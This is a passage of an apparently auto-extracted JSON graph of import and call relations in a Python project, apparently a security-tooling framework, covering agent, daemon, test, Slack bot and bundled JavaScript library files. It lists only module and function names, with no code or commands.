"skills/sessions_watcher.py", "target": "watchdog.observers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "lazyown_facts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "event_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/sessions_watcher.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "concurrent.futures"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "modules.rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "modules.detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "skills.lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "lazyown_groq_agents"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/swan_agent.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_autonomous_daemon.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_facts.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_facts.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_facts.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_facts.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_facts.py", "target": "lazyown_facts"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_permissions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_context"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "string"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_session"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_claudemd"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_session"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_permissions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_claudemd"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_context"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_permissions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "lazyown_session"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_harness_e2e.py", "target": "traceback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_hive_mind.py", "target": "hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_mcp_smoke.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_mcp_smoke.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_mcp_smoke.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_mcp_smoke.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_mcp_smoke.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_objectives.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_objectives.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_objectives.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_objectives.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_objectives.py", "target": "lazyown_objective"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_parquet_db.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_parquet_db.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_parquet_db.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_parquet_db.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_parquet_db.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_parquet_db.py", "target": "lazyown_parquet_db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_parquet_db.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/tests/test_parquet_db.py", "target": "pyarrow"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "toposwarm_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/toposwarm_autonomous.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "skills.autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "skills.hive_mind"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "skills.swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "modules.engage_summary"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "modules.engage_summary"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/unified_orchestrator.py", "target": "modules.engage_summary"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/update_knowledge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/update_knowledge.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/update_knowledge.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/update_knowledge.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/update_knowledge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/update_knowledge.py", "target": "modules.logging_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "skills/update_knowledge.py", "target": "lazyown_parquet_db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "slack_bolt"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "slack_bolt.adapter.socket_mode"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "modules.llm_adapter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "slack_c2_bot.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getOwnPropertySymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 